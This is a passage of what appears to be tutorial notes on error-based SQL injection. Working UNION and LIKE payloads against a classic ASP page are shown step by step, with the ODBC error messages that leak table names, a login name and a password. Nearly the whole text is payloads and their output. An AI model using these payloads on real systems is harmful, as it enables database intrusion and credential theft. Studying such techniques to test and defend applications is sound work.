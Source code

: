 
incorporating the UNION and LIKE statements is to use the **ODBC error message** to gather information from the database.

Example 1:
- the page `http://page/index.asp?id=20`.
- use the UNION statement to set up a query as follows:
  - `http://page/index.asp?id=20 UNION SELECT TOP 1 TABLE_NAME FROM INFORMATION_SCHEMA.TABLES --`
    - `<kbd>Information_Schema Tables</kbd>`: hold data on all the tables in the server database
    - `<kbd>Table Name</kbd> field`: holds name of each table in the database.

- This string attempts to UNION the integer 20 with another string from the database.
  - `SELECT`: provide the name of the ﬁrst table in the database
  - `UNION`: result in the SQL server attempting to convert a character string to integer.

- This conversion will fail, error message will be return and provides the information:
  - the string could not be converted to an integer
  - provides the name of the first table in the database, namely employeetable.

> Microsoft OLE DB Provider for ODBC Drivers error '80040e07‘
> [Microsoft] [ODBC SQL Server Driver] [SQL Server]Syntax error converting the nvarchar value 'employeetable' to a column of data type int.
> /index.asp, line 6

- Then using the following statement,
  - `http://page/index.asp?id=20 UNION SELECT TOP 1 TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_NAME not IN ('employeetable') --`
  - the name of the next table in the database tables will be returned



Example 2:
- use the LIKE keyword in the following statement, additional information can be found:
  - `http://page/index.asp?id=20 UNION SELECT TOP 1 TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_NAME LIKE '%25 login%25'--`
  - The term `'%25login%25'`: will be interpreted as `%login%` by the server.
  - The resulting **ODBC error message** would be:
    - The ODBC error message identifies a table name as `sys_login`.

> Microsoft OLE DB Provider for ODBC Drivers error '80040e07'
> [Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error converting the nvarchar value 'sys_login' to a column of data type int.
> /index.asp, line 6

- The next step, obtain a `login_name` from the `sys_login table`:
  - `http://page/index.asp?id=20 UNION SELECT TOP 1 login_name FROM sys_login --`
  - The resulting **ODBC error message**:
    - provides the login name `whiteknight` from the `sys_login` table

> Microsoft OLE DB Provider for ODBC Drivers error '80040e07'
> [Microsoft][ODBC SQL Server Driver][SQL ServerJSyntax error converting the nvarchar value 'whiteknight’ to a column of data type int.
> /index.asp, line 6


- To obtain the password for whiteknight:
  - `http://page/index.asp?id=20 UNION SELECT TOP 1 password FROM sys_login where login_name='whiteknight' --`
  - The corresponding **ODBC error message**: gives the password for whiteknight is revealed: `rlkfoo3`.
